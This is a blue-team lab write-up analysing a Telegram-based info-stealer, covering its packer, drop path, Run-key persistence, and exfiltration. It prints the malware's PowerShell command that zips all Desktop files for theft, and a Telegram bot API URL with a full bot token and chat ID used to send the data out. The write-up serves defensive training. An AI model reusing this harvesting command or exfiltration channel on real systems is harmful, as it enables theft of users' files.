









# TeleStealer Lab
----


Practice lab: [here](https://cyberdefenders.org/blueteam-ctf-challenges/telestealer/)

---

## Lab Description
At the company, our network team noticed a big increase in the network activity on one of our computers in the last few days. After looking into it, We found out that an employee had downloaded an untrusted software, but they weren't sure what it was doing. We need you to investigate carefully and find out what it do.

---
## Analyzing

**Q1: Malicious software frequently employs diverse methods to hide its presence and avoid detection. What packing tool was utilized to obfuscate this malware?**



> **UPX**

**Q2: Since the malware author used multiple techniques to hide its functions, where does the malware place the second stage?**



> **C:\Users\Administrator\AppData\Roaming\Dropper**

**Q3: Looking into how the malware persist on the machine, what's the path of the registry key it uses to do this?**



> **HKCU\Software\Microsoft\Windows\CurrentVersion\Run**

**Q4: We've noticed unusual network traffic in recent days since the discovery of the malware. We need to determine what data it might have sent out. What's the path of the exfiltrated data?**

3  connectivity of malicious process (2 reconnect - 1 disconnect)



Time of connect is: 10:19:09.xxxxx. So i will investigate operation before this time.





```powershell
Get-ChildItem -Path C:\Users\Administrator\Desktop -Recurse -File | ForEach-Object { try { Compress-Archive -Path $_.FullName -DestinationPath C:\Users\Administrator\AppData\Roaming\Dropper\Archive.zip -Update -ErrorAction Stop } catch {} }
```

It compress C:\Users\Administrator\Desktop into Archive.zip file and send it throught tcp connection.

> **C:\Users\Administrator\Desktop**

**Q5: You've verified that the malware is gathering sensitive data from compromised machines. It mainly uses a separate communication channel to send out the data. What is the full domain the malware use to exfiltrate the data?**

Using filter `ip.dst == 149.154.167.220` in wireshark to capture Network activity but no useful result for me. using Ip Lookup to find domain then I received:



I guess this is harm **telegram bot** using api.telegram.org

> **api.telegram.org**

**Q6: Once the channel is recognized, the next step is to determine who is receiving the exfiltrated data. Utilizing Python and the hosts file, can you determine the username of the recipient?**

This question, you must be config host in **C:\Windows\System32\drivers\etc\host** same with fakenet to test through localhost. 
```
# localhost name resolution is handled within DNS itself.
	127.0.0.1       api.telegram.org
#	::1             localhost

```

Such as:



Now, if you run malicious file, it will make request same curl action into api.telegram.org and after it also make request localhost.



I received telegram api (url): `bot6369451776:AAEYgeQO4Onl5XIHhXTtzvcNOMahPNhhlZo/sendDocument?chat_id=7389421`

> **bot6369451776**